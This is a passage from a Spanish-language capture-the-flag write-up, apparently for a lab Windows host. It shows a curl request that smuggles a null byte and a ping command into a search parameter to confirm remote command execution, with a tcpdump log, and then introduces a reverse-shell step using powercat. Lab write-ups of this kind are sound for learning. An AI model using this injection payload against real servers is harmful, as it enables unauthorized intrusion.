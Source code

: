 ```bash
curl -s -X GET "10.10.10.8/?search=%00ping%20-n%201%2010.10.16.5" > /dev/null

```
<br>
5- Recibimos la conexión:

```bash
❯ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:47:35.502215 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [S], seq 234439617, win 64240, options [mss 1460,sackOK,TS val 2865589165 ecr 0,nop,wscale 7], length 0
14:47:35.547260 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [S.], seq 1789645455, ack 234439618, win 8192, options [mss 1338,nop,wscale 8,sackOK,TS val 537147 ecr 2865589165], length 0
14:47:35.547292 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 2865589210 ecr 537147], length 0
14:47:35.547376 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [P.], seq 1:112, ack 1, win 502, options [nop,nop,TS val 2865589210 ecr 537147], length 111: HTTP: GET /?search=%00ping%20-n%201%2010.10.16.5 HTTP/1.1
14:47:35.641320 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [.], ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 0
14:47:35.651042 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [P.], seq 1:219, ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 218: HTTP: HTTP/1.1 200 OK
14:47:35.651064 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 219, win 501, options [nop,nop,TS val 2865589314 ecr 537157], length 0
14:47:35.651985 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [.], seq 219:1545, ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 1326: HTTP
14:47:35.651995 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 1545, win 501, options [nop,nop,TS val 2865589315 ecr 537157], length 0
14:47:35.652030 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [P.], seq 1545:1679, ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 134: HTTP
14:47:35.652033 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 1679, win 501, options [nop,nop,TS val 2865589315 ecr 537157], length 0
14:47:35.652043 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [.], seq 1679:3005, ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 1326: HTTP
14:47:35.652046 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 3005, win 498, options [nop,nop,TS val 2865589315 ecr 537157], length 0
14:47:35.652054 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [P.], seq 3005:3139, ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 134: HTTP
14:47:35.652057 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 3139, win 501, options [nop,nop,TS val 2865589315 ecr 537157], length 0
14:47:35.684342 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [P.], seq 3139:4170, ack 112, win 258, options [nop,nop,TS val 537157 ecr 2865589210], length 1031: HTTP
14:47:35.684357 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 4170, win 501, options [nop,nop,TS val 2865589347 ecr 537157], length 0
14:47:35.684602 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [F.], seq 112, ack 4170, win 501, options [nop,nop,TS val 2865589348 ecr 537157], length 0
14:47:35.724418 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [.], ack 113, win 258, options [nop,nop,TS val 537165 ecr 2865589348], length 0
14:47:35.810447 IP 10.10.10.8.http > 10.10.16.5.59738: Flags [F.], seq 4170, ack 113, win 258, options [nop,nop,TS val 537165 ecr 2865589348], length 0
14:47:35.810463 IP 10.10.16.5.59738 > 10.10.10.8.http: Flags [.], ack 4171, win 501, options [nop,nop,TS val 2865589473 ecr 537165], length 0
```
¡Tenemos RCE!
<br>
<h3 style="text-align:center" id="reverseshell">REVERSE SHELL</h3>
<hr>
<br>
Para conseguir la revshell vamos a hacer uso de la herramienta `powercat.ps1` la cual cumple con la misma función que netcat, pero adaptada a powershell, os dejo por aquí su 
<a href="https://github.com/besimorhino/powercat" target="_blank">Github</a> y el enlace a 
<a href="https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters" target="_blank">Hacktricks</a> de donde sacaremos comandos útiles para powershell.